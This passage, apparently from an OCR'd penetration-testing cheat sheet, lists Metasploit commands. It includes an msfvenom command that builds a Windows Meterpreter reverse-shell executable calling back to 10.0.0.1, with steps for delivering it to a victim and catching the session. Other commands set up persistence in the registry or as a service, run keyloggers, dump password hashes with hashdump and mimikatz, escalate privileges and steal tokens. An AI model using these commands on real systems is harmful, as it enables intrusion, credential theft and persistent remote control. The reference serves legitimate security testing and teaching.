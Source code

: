         ```
        msf> jobs -l
        msf> sessions -l
        meterpreter> <Ctrl+Z> # background current interactive session
        ```

        * `auxiliary`

            * port scanner: `use auxiliary/scanner/portscan/tcp`
            * dns enumeration: `use auxiliary/gather/dns_enum`
            * ftp server: `use auxiliary/server/ftp` `set FTPROOT /tmp/ftproot` `run`
            * socks proxy server: `use auxiliary/server/socks4`

        *   [meterpreter](http://www.offensive-security.com/metasploit-unleashed/Meterpreter_Basics) ([some meterpreter scripts for windows exploitation](https://github.com/darkoperator/Meterpreter-Scripts)), usage:
        
            1. using `msfvenom` for payload generation, e.g. `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.0.0.1 lport=12344 -f exe > r.exe`
            2. moving payload to victim and execute it
            3. msfconsole: `use exploit/multi/handler`
                <br> eternal handler: `set exitonsession false` -> `run -j`
            4. set variables `PAYLOAD`, `LHOST`, `LPORT`
            5. `> exploit` -> opens meterpreter (in effect - remote shell)

            * fast migration:
                `meterpreter > ps | grep spool` -> `meterpreter > migrate 1100`
            * `run persistence -h` - set meterpreter into autostart (registry), `metsvc` - set meterpreter as a service with autostart
            * `> sysinfo / getuid / getsid / getprivs / ps / migrate / use priv / getsystem / run winenum / shell / shutdown / reboot / load mimikatz + wdigest / ...`
                <br> `kill / execute` - you can do a lot of things, ..., install keylogger, make screenshots, getcountermeasure, ...
            * file manipulations: `download / upload / cat / edit` `ls/pwd/cd/lcd/mkdir/rmdir`
            * network: `ipconfig / portfwd / route`
            * `loot`

            * ***privilege escalation***

                * `getsystem` - elevate privileges to localsystem
                * retrieve credentials:
                    
                    * `hashdump` - dumps the contence of SAM database
                    * `load mimikatz`
                    
                        * `kerberos`
                        * `livessp`, `ssp`
                        * `wdigest`
                        * `mimikatz_command -f samdump::hashes`
                        * `mimikatz_command -f sekurlsa::searchPasswords`

                * `steal_token [user PID]` - steal user's token
                *   token impersonalization:

                    ```
                    use incognito
                    list_tokens -u
                    impersonate_token DOMAIN\user
                    ```
